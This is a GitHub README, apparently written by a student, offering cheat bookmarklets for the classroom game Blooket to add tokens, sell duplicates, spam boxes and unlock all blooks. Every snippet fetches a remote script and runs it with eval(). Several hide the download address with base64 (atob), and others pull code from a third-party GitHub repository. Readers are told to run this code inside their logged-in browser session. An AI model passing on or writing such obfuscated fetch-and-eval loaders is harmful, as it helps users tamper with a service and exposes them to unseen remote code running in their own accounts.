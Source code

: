 # hacks B) pls star🥲🌟😀




# Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats                                 (made by a student who named jack and hes so cool omg!1 credit to @P1uffy,@GooseterV,scroll down for tutorial)



# Here are the big juicy hecks collection
these are all useful bookmarklets,paste them into bookmark, make sure javascript: are in the initial.
# add tokens!11! exp also !111
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
# sell dupe blooks!11111!111!!!!!!!!!
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# spam box!11
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# view all blooks?😳
just all blooks
```js
javascript:fetch("https://raw.githubusercontent.com/GooseterV/Blooket/master/js/spoofer.js").then((res) => res.text().then((t) => eval(t)))
```
all blooks including the one from tower defense and creates a custom box in market
```js
javascript:fetch("https://raw.githubusercontent.com/GooseterV/Blooket/master/js/spoofer.js").then((res) => res.text().then((t) => eval(t)))
```


# col funni -1 fps tutorial thing i guess
https://user-images.githubusercontent.com/94798292/142773350-97175967-1b33-42ec-acf0-87f0a88075d0.mp4
